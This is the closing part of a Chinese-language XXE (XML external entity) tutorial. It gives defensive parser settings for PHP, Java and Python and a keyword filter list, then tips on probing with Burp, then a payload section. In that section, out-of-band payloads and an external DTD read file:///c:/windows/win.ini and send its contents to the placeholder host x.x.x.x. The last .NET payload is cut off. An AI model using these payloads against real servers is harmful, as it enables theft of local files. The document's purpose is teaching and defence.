 web服务器uri get请求长度一般限制在2k 

.NET的System.XML会自动进行URLencode；

### 0x05 防御

禁用外部实体
PHP：

	libxml_disable_entity_loader(true);

JAVA:

	DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
Python：

	from lxml import etree
	xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

过滤关键字

	DOCTYPE ,ELEMENT, ENTITY，SYSTEM等

### 0x06 总结
平时burp 抓包 可以在请求头添加  Content-type:application/xml
并添加 xml语句如果报错 或执行则有可能存在xxe漏洞，不断根据response fuzz即可

### 0x07 xxe payload
```
--------------------------------------------------------------
Vanilla, used to verify outbound xxe or blind xxe
--------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

----------------------------------------------------------------
OoB variation of above (seems to work better against .NET)
----------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
```